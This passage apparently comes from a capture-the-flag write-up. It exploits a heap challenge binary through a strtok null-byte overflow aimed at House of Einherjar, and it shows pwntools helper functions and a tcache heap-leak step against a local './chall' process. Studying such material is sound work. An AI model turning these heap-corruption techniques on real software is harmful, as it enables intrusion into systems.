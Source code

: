 ```c
      puts("empty!");
    }
  }
  else {
    puts("too big!");
  }
}
```
{: .nolineno }

We create functions in our exploit script for each of the three actions we can take, which is the beginning of our exploit script.
```python
from pwn import *

exe = context.binary = ELF("./chall", checksec=False)
libc = exe.libc

io = process(exe.path)

def create(size, s):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size? ", str(size).encode())
    io.sendafter(b"str? ", s)
    io.recvuntil(b"stored at ")
    return int(io.recvuntil(b"!")[:-1])

def tok(idx, delim):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"idx? ", str(idx).encode())
    io.sendlineafter(b"delim? ", delim)

def free(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"idx? ", str(idx).encode())
```
{: .nolineno }


## Vulnerability
The vulnerability in this program occurs in the `do_tok` function. The `strtok` function nulls out the delimiter when it occurs in the string, and stops if it encounters a null-byte in the string (because that indicates the end of the string). However, because our string is read in with `read` function there is no null-byte terminating it, which makes `strtok` go out of bounds (and start parsing other data which comes right after our string). We can perform a null-byte overflow with this to overwrite the `prev-inuse` field of the proceeding chunk, which allows us to do `House of Einherjar` to get a shell.


# Heap Leak
We can get a heap leak from the `tcache bin`. Chunks that are of size 0x408 or less are stored in the tcache when they are free'd, given that the there does not already exist 7 chunks of the same size as the one being free'd in the tcache. The tcache works as a linked list, which means that the chunks point to each other. If we allocate two chunks, and free them, we get a tcache looking like this: `chunk b -> chunk a -> NULL`. The next chunk we allocate of the same size will give us `chunk b` back again, now containing a pointer to `chunk a`.
```python
a = create(0x10, b"A")
b = create(0x10, b"B")
free(a)
free(b)

c = create(0x10, b"C") # This will give us chunk b back, with a pointer to chunk a
```